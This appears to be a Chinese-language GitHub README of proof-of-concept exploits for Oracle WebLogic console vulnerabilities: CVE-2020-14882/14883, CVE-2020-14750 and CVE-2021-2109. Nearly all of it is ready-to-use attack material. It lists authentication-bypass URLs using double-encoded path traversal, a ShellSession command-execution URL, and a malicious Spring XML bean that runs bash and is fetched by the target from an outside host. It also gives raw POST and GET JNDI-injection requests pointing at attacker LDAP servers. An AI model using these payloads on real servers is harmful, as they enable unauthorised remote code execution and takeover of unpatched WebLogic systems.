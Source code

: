 # CVE-2020-14882/14883
Weblogic ConSole HTTP 协议代码执行漏洞

- CVE-2020-14883: 权限绕过漏洞
- CVE-2020-14882: 代码执行漏洞

影响版本

- WebLogic 10.3.6.0.0
- WebLogic 12.1.3.0.0
- WebLogic 12.2.1.3.0
- WebLogic 12.2.1.4.0
- WebLogic 14.1.1.0.0

未授权访问到管理后台页面 POC
```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

12.2.1版本以上使用 `com.tangosol.coherence.mvel2.sh.ShellSession` POC
```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

任意版本使用 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` POC
- 需要Weblogic的服务器能够访问到恶意XML

1. 构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如http://example.com/rce.xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```
2. POC
```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

# CVE-2020-14750
Weblogic Console 验证绕过漏洞

影响版本

- WebLogic 10.3.6.0.0
- WebLogic 12.1.3.0.0
- WebLogic 12.2.1.3.0
- WebLogic 12.2.1.4.0
- WebLogic 14.1.1.0.0

未授权访问到管理后台页面 POC
```
http://your-ip:7001/console/images/%252E./console.portal
```

# CVE-2021-2109
Weblogic RCE(JNDI)

影响版本

- WebLogic 10.3.6.0.0
- WebLogic 12.1.3.0.0
- WebLogic 12.2.1.3.0
- WebLogic 12.2.1.4.0
- WebLogic 14.1.1.0.0

1. POC
- POST
```
POST /console/css/%252e%252e%252f/consolejndi.portal HTTP/1.1
Host: 192.168.203.128:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 165

_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.203;128:1389/x0qvh3;AdminServer%22)
```

- GET
```
GET /console/css/%252e%252e%252f/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://10.16.102;190:1389/ykt121;AdminServer%22) HTTP/1.1
Host: 192.168.203.128:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
  Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 165
```

2. JNDI服务器,建议使用ldap协议